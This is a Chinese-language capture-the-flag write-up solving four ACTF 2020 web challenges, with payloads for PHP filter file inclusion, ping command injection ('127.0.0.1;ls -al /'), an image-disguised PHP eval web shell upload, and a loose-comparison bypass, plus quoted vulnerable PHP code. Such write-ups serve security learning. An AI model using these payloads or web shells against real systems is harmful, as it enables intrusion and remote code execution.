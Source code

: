 # ACTF 2020

## Include

> *2021/07/01*

### 题目

F12打开源码，发现一个`?file=flag.php`链接，点进去发现啥都没有，那只能先试试**伪协议**文件包含flag.php，得到base64的代码，解码后得到`flag`

### payload

```
?file=php://filter/read=convert.base64-encode/resource=flag.php
```

## Exec

> ACTF 2020

### 题目

给了一个可以ping的框，F12打开源码，发现是命令执行，直接在框里输入命令绕过`127.0.0.1;ls`，得到目录下文件`index.php`，cat命令阅读源码，`ls`搜索目录发现上层目录中有`flag`文件，获取`flag`

```php
<?php 
if (isset($_POST['target'])) {
	system("ping -c 3 ".$_POST['target']);
}
?>
```

### payload

```
127.0.0.1;ls -al /
```

## Upload

> *2021/07/06*

### 题目

这个题也是个上传的基本题，利用图片马加`phtml`绕过，会得到上传路径，蚁剑连接即可

### payload

```http
POST / HTTP/1.1
Host: 44bc62a4-017a-4355-bb9e-9eea2f0ca8c0.node4.buuoj.cn
Content-Length: 327
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://44bc62a4-017a-4355-bb9e-9eea2f0ca8c0.node4.buuoj.cn
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryBqT5nlAPBf5GT9T5
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/91.0.4472.124 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://44bc62a4-017a-4355-bb9e-9eea2f0ca8c0.node4.buuoj.cn/
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: UM_distinctid=17a7701d69cded-0a36b994c25fd8-6373264-384000-17a7701d69d9e0
Connection: close

------WebKitFormBoundaryBqT5nlAPBf5GT9T5
Content-Disposition: form-data; name="upload_file"; filename="bme.phtml"
Content-Type: image/gif

GIF89a
<?php
eval($_POST['bme']);
?>
------WebKitFormBoundaryBqT5nlAPBf5GT9T5
Content-Disposition: form-data; name="submit"

upload
------WebKitFormBoundaryBqT5nlAPBf5GT9T5--
```

## BackupFile

> *2021/07/06*

### 题目

同样是一道**信息泄露**类型的题目，源码在`index.php.bak`

```php
<?php
include_once "flag.php";

if(isset($_GET['key'])) {
    $key = $_GET['key'];
    if(!is_numeric($key)) {
        exit("Just num!");
    }
    $key = intval($key);
    $str = "123ffwsfwefwf24r2f32ir23jrw923rskfjwtsw54w3";
    if($key == $str) {
        echo $flag;
    }
}
else {
    echo "Try to find out source file!";
}
```

我们需要让我们的`key`，绕过`is_numeric`，那我们的`key`就需要为数字，紧接着有一个弱等于`==`，**由于`php`的弱类型特性，导致数字与包含数字内容的字符串比较时，字符串会从头部的数值部分进行截取**，简单来说这里就是`123`

### payload

```
?key=123
```
